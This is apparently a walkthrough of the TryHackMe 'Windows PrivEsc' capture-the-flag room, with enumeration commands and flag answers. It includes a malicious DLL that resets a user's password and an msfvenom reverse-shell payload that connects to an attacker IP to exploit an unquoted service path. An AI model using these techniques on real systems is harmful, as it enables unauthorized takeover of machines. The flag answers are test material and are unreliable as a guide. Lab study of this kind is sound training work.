 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Windows PrivEsc.'
---
```


# Windows PrivEsc

This room can be found [here](https://tryhackme.com/room/winprivesc). This room covers a few methods of escalating from a normal user to the root user on a system.

## Task 2

### Question 2: List users on the target system. One of them resembles a flag.

`THM-17213` - Running `net users` will give us our answer

![](<../../../.gitbook/assets/image (94).png>)

### Question 3: What is the OS version of the target machine?

`10.0.17763 N/A Build 17763` - Running `systeminfo` will give us our answer

![](<../../../.gitbook/assets/image (161).png>)

### Question 4: When was security update KB4562562 installed?

`6/10/2020` - Following the command the room gives, `wmic qfe get Caption,Description,HotFixID,InstalledOn` but piping in the string we want to find will make this MUCH easier. `wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr "KB4562562"`

![](<../../../.gitbook/assets/image (74).png>)

### Question 5: What is the state of Windows Defender?

`STOPPED` - Running `sc query windefend` will give us our answer

![](<../../../.gitbook/assets/image (139).png>)

## Task 4

### Question 1: What version of a Fitbit application can you see installed?

`2.0.1.6782` - Following the example command the room gives us but piping to search will help.

`wmic product get name,version,vendor | findstr "Fitbit"`

### Question 2: What kind of vulnerability seems to affect the Fitbit application?

`Unquoted Service Path` - Having to do some minor research on this one, when going to Exploit.db we can search for "Fitbit" and find [this link](https://www.exploit-db.com/exploits/40482) which give us our answer.

### Question 3: What version of FoxitReader is installed on the target system?

`9.0.1.1049` - I admittedly had to go through the explorer via GUI to find this.

![](<../../../.gitbook/assets/image (97).png>)

## Task 5

First we are asked to replicate the attacks the room explained. So it asks us to create to malicious DLL file, and use it to modify the password for the user Jack so we can login as him.

```
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user Jack Passwors123");
        ExitProcess(0);
    }
    return TRUE;
}
```

We add the above code into a .c file then we can compile it.

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

![](<../../../.gitbook/assets/image (59).png>)

Now we get the file onto the machine via whatever means we can. I'll be adding it by using a simple python web server. `python3 -m http.server` onmy attacker machine.

![](<../../../.gitbook/assets/image (102) (1).png>)

Now we stop and start the DLL service with: `sc stop dllsvc` followed by `sc start dllsvc`

![](<../../../.gitbook/assets/image (146).png>)

### Question 3: Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

`THM-8377492093` - Now that we have changed Jacks password, we can switch to his user via commandline or remote desktop in. I went with commandline and just opened up powershell as jack.

![](<../../../.gitbook/assets/image (176).png>)

Now we find the file: `Get-ChildItem -Path C:\ -Recurse -File flagdll.txt -ErrorAction SilentlyContinue`

![](<../../../.gitbook/assets/image (70).png>)

Then we get the file contents: `Get-Content 'C:\Users\jack\Documents\flagdll.txt'`

![](<../../../.gitbook/assets/image (167).png>)

## Task 6

### Question 1: What is the full unquoted path of unquotedsvc

`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe` - So as the room suggests we can run `wmic service get name,displayname,pathname,startmode` but we can pip ewith `findstr` to make our search easier. `wmic service get name,displayname,pathname,startmode | findstr "unquotedsvc"`

![](<../../../.gitbook/assets/image (175).png>)

### Question 2: Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

`C:\Program Files\Unquoted Path Service\` - As the room tells us, accesschk64.exe is on the desktop, so running .\accesschk64.exe /accepteula -uwdq "C:\Program Files\\`Unquoted Path Service\"` We see our answer. We can write into the base directory of that.

![](<../../../.gitbook/assets/image (33).png>)

### Question 3: What would be the name of the executable you would place in that folder?

`common.exe` - I had to look this up as I found no clear indicator as why this file had to be named this

### Question 4: Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

`THM-636729273483` - The room gives us an example payload to create a file to upload to the system. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.68.77 LPORT=4444 -f exe > common.exe`

![](<../../../.gitbook/assets/image (111).png>)

Now we start metasploit and get our listener ready `msfconsole -q`

![](<../../../.gitbook/assets/image (158).png>)

We can follow the rooms example just be sure to change the IP and PORT of YOUR machine you used when making the payload.

We get the file onto the target in whatever way we can, I'll again be using python3 webserver

![](<../../../.gitbook/assets/image (157).png>)

With our file now on the target, we can start the service `sc start unquotedsvc`

![](<../../../.gitbook/assets/image (151).png>)

We should now have our shell

![](<../../../.gitbook/assets/image (169).png>)

From here there are multiple ways we can find our file and flag but for the sake of brevity we will just stick with windows and methods we have already used.

We'll move to powershell with `powershell.exe`, then find the file we want, `Get-ChildItem -Path C:\ -Recurse -File flagUSP.txt -ErrorAction SilentlyContinue`,  then get the contents of the file, `Get-Content 'C:\Users\Cora\Documents\flagUSP.txt'`

![](<../../../.gitbook/assets/image (38).png>)

![](<../../../.gitbook/assets/image (91).png>)
